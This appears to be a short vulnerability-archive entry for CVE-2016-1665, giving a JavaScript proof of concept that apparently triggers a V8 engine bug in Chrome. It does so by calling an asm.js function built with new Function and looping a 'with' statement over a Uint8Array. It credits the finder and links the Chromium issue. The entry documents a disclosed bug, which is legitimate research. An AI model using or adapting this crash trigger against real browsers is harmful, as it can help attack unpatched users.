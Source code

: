# CVE-2016-1665

- Date: Apr 2016
- Credit: HyungSeok Han

## PoC

```javascript
var data = new Uint8Array(0x100);
for(i=0;i<0x100;i++)data[i]=0x41;
f = new Function("\
vuln=(function(){\
  \"use asm\";\
  function f(i){\
   for(i=0;i<0x10000;i++){\
     var a= new Uint8Array(data); \
    with(a[0]){};\
   }\
  }\
  return f;})();\
")
f()
vuln();
vuln();
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=606181)
